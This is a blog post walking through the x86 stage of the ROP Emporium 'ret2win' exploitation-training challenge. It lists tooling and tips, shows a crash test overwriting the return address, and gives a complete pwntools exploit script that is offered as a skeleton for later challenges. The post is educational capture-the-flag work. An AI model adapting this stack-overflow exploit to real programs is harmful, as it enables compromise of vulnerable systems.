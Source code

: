 ```yaml
---
---
layout: post
title:  "ROP Emporium - ret2win"
date:   2023-08-05 19:59:44 +0300
categories: jekyll update
---
```


**Contents**
* TOC
{:toc}
## Introduction
Lately I've decided that my next current goal is to gain deeper exploitation knowledge, regarding ARM and MIPS architectures. And whats better than learning by hands?
The ROP Emporium platform offers 8 exploitation challenges, for `x86, x64, ARMv5, mips`. 
Lets do them all!

## Tools
To find ROP gadgets, my regular go-to tool is `ropper`. \
Just in case it might miss few gadgets here and there, I would also use `ROPGadget` (which is abit more recommended for ARM architecture). \
`pwntools` is mandatory for such challenges.

As a debugger, I'd use `pwndbg`. \
It has great integration with `pwntools`, which can automate debugging tasks by running `gdb` from a pythonic script. 

`checksec` is good to learn the challenge's mitigations settings. `rabin2` is also an option.

## Tips
1. Note that for stripped binaries, external functions (that are being imported by the binary) names may be resolved from their shared objects:
```bash
nm -u <binary>  # list external functions
rabin2 -qs <binary> | grep -ve imp -e ' 0 '  # try to list internal functions
```

2. The ROP Emporium challenges contains a `usefulGadgets` symbol, which marks the address of added gadgets to the binary. 

3. In order to find strings (avoid using `strings` binary):
```bash
rabin2 -z split
```

4. Make sure the stack is 16-Byte aligned before `call` instruction.

5. When debugging with GDB, calling `system` with invalid string may start `/usr/bin/bash`. 
   This works specifically within a debugger, not the remote target. 
   
6. Use `ltrace` to track library calls. 

## x86

```bash
$ file ret2win32
ret2win32: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=e1596c11f85b3ed0881193fe40783e1da685b851, not stripped

$ checksec ret2win32
[*] '/home/itay/projects/rop_emporium/rop_emporium_all_challenges/ret2win32/ret2win32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

```
This challenge reads 56 bytes into 32 stack buffer, via `read` call. \
A function named `ret2win` prints the flag, and located within `0x804862c`. 

The amount of needed garbage bytes is 44:
```bash
$ sudo dmesg -C
$ echo `python -c 'print("A"*44 + "B" * 4)'` | ./ret2win32
$ sudo dmesg
[ 4285.835462] show_signal_msg: 7 callbacks suppressed
[ 4285.836441] ret2win32[32818]: segfault at 42424242 ip 0000000042424242 sp 00000000ff9c0940 error 14 in libc.so.6[f7c00000+20000]
[ 4285.836884] Code: Unable to access opcode bytes at RIP 0x42424218.
```
The exploit for x86 is simple (would use it as a skeleton for most of the challenges):
```python
import pwn  
import logging  
  

logger = logging.getLogger(__name__)  
  
DEBUG = True  
BINARY = './ret2win32'  
GOAL_FUNCTION = 'ret2win'  
GOAL_ADDRESS = 0  
  
GDB_SCRIPT = f'''  
set pagination off  
set disassembly-flavor intel  
  
b *0x804862c  
commands printf "woot, reached goal address"  
bt  
c  
end  
  
c  
'''  
  
  
def set_properties(elf):  
    global GOAL_ADDRESS  
    GOAL_ADDRESS = elf.symbols[GOAL_FUNCTION]  
  
    pwn.context.bits = elf.bits  
    pwn.context.endian = elf.endian  
    pwn.context.arch = elf.arch  
    pwn.context.log_level = 'debug'  
  
  
def create_shellcode():  
    shellcode = b''  
    shellcode += 44 * b'A'  
    shellcode += pwn.p32(GOAL_ADDRESS)  
  
    logging.info(f'Created shellcode:\n{shellcode}')  
  
    return shellcode  
  
  
def exploit(p, shellcode):  
    if DEBUG:  
        pwn.gdb.attach(p, GDB_SCRIPT)  
  
    p.sendline(shellcode)  
    p.recvuntil('Thank you!')  
  
    data = p.recvall()  
    logger.info(f'FLAG:{data}')  
  
    p.interactive()  
  
  
def main():  
    elf = pwn.ELF(BINARY)  
    set_properties(elf)  
  
    shellcode = create_shellcode()  
  
    p = pwn.process(BINARY)  
  
    exploit(p, shellcode)  
  
  
if __name__ == '__main__':  
    main()
```
